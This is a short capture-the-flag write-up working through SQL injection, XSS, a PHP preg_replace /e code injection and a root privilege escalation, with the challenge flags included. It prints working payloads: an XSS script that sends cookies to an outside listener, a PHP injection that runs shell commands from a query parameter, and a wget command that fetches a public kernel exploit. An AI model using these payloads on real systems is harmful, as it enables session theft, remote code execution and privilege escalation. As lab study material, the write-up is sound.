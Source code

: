 * sql injection
  The query is probably 
  ~select * from xxx where (user='' AND password='');~
  ~(' or 1=1 or ')~ but ~(' or ''=')~ cannot because
  ~( user='' or ''='' and password = xxx )~. AND has higher precedence!
* XSS
  in the SQL injection before. 
  easily found that one column is 'user' and the other 'password'
  ~(') union select '<img id="test"> <script> var im=document.getElementById("test");im.src="http://localhost:8080/?cookie=" + document.cookie;</script>' as user,2 -- )~
  flag: xss_is_a_little_like_sqli_but_usually_a_lot_more_fun
* php
  read about ~preg_replace~. especially the ~e~ modifier
  guess they might be using ~preg_replace('/(.*)/e','hebrev("${1}")',my_input)~
  try give it ~[hebrew]'.phpinfo().'[/hebrew]~ failed.
  Hint from Cheng: have unescaped HTML as well.
  try ~[hebrew]<?php chr(97) ?>[/hebrew]~. Seems ~<?~ stuff is replaced by html comment.. 
  see that in PHP ~{${expr}}~ expr will be evaluated. Also! in php, a constant ~xxx~ will be evaluated as strings "xxx" if it is not defined
  try ~[hebrew]{${print(shell_exec($_GET[test]))}}[/hebrew]~
  then just pass it the ~test=xxx~ and php will happly execute ~xxx~ as shell command.
  flag:by_2050_php_may_get_rid_of_most_of_its_inherent_security_problems
* root privilege 
  search online. found this. https://www.exploit-db.com/exploits/37292/
  ~wget --help~ wget is present
  ~wget -O~ save as a different file
  Actual exploit: 
  ~wget https://www.exploit-db.com/download/37292 -O /tmp/ofc.c~
  try dirty cow
  

